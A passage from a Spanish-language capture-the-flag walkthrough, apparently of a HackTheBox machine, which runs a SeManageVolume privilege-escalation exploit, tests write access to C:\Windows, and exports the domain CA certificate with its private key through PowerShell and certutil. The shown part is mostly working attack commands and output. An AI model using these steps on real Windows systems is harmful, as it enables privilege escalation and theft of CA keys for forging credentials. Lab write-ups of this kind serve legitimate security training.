 ### 8.4 Ejecutar el Exploit

```powershell
# Verificar permisos antes
icacls C:\

# Ejecutar el exploit
.\SeManageVolumeExploit.exe
# Output: Entries changed: 876
# DONE

# Verificar permisos después
icacls C:\
# Ahora deberíamos ver permisos adicionales

# Probar escritura
echo "test" > C:\Windows\test.txt
type C:\Windows\test.txt
del C:\Windows\test.txt
```

### 8.5 Buscar y Exportar el Certificado CA

```powershell
# Crear directorio temporal
mkdir C:\temp -Force

# Listar certificados del sistema
Get-ChildItem -Path Cert:\LocalMachine\My
Get-ChildItem -Path Cert:\LocalMachine\Root

# Buscar específicamente el CA
Get-ChildItem -Path Cert:\LocalMachine\My | Where-Object {$_.Subject -like "*Certificate-LTD-CA*"}

# Resultado:
# Thumbprint: 2F02901DCFF083ED3DBB6CB0A15BBFEE6002B1A8  
# Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
```

### 8.6 Exportar el Certificado CA con Clave Privada

```powershell
# Método 1: PowerShell
$cert = Get-ChildItem -Path Cert:\LocalMachine\My | Where-Object {$_.Subject -like "*Certificate-LTD-CA*"}
Export-PfxCertificate -Cert $cert -FilePath C:\temp\ca.pfx -Password (ConvertTo-SecureString -String "password" -Force -AsPlainText)

# Método 2: certutil (si el método 1 falla)
certutil -exportPFX -p password my 2F02901DCFF083ED3DBB6CB0A15BBFEE6002B1A8 C:\temp\ca.pfx

# Copiar al directorio actual para descarga
copy C:\temp\ca.pfx .
dir ca.pfx

# Descargar
download ca.pfx
```
